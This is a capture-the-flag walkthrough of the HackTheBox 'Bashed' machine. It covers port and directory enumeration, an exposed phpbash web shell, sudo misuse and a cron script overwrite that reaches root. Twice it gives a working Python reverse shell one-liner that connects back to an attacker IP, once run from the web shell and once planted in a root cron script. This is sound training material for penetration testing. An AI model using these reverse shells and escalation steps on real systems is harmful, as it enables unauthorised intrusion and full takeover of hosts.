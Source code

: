 # HackTheBox Bashed

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.68

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.68 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 09:54 +07
Nmap scan report for 10.10.10.68
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.81 seconds

### Web Enumeration (80) ############################
```

### Apache httpd 2.4.18

List of the hidden using `gobuster` and I try to enum in the hidden url.

```
[+] Files and directories
gobuster dir -k -u http://10.10.10.68:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
```

At uri `/dev`, I got 2 file which is phpbash command shell.

![](images/2.png)

## Foothold

### phpbash execute shell

At url `http://10.10.10.68/dev/phpbash.php`, I try some reverse shell with `bash`, `nc` but it's not work. When I run `python reverse shell` and I got it.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

At listener, I got reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.2:29.2]~/walkthrough/hackthebox/bashed
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 34342
www-data@bashed:/var/www/html/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Sudo Access

After running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), I got the sudo access to run command with scriptmanager's permission without password. 

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Let's run `/bin/bash` to get the shell.

```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

### Crontab File overwrite

I try to monitor process with [pspy32](https://github.com/DominicBreuker/pspy/blob/master/README.md). The results show that there are process run all python file in folder `scripts` as root.

```
scriptmanager@bashed:/tmp$ ./pspy32
<snip>
2021/04/05 21:01:04 CMD: UID=0    PID=18391  | /bin/bash 
2021/04/05 21:01:04 CMD: UID=0    PID=18390  | python test.py 
2021/04/05 21:01:04 CMD: UID=0    PID=18389  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

And script `test.py` owned by scriptmanager, and we can modify it.

```
scriptmanager@bashed:/scripts$ ls -lh
ls -lh
total 12K
-rw-r--r-- 1 scriptmanager scriptmanager 211 Apr  5 21:00 test.py
-rw-r--r-- 1 root          root           12 Apr  5 21:00 test.txt
```

Let's add python reverse shell to file test.py and waiting cronjobs execute it.

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > /scripts/test.py
```

At listener, I got root shell.

```
┌──(Hades㉿10.10.14.5)-[1.3:27.7]~/scripting/priescal/monitor
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 34304
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bashed:~# cat /var/spool/cron/crontabs/root
cat /var/spool/cron/crontabs/root
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.igz05b/crontab installed on Mon Dec  4 17:53:17 2017)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```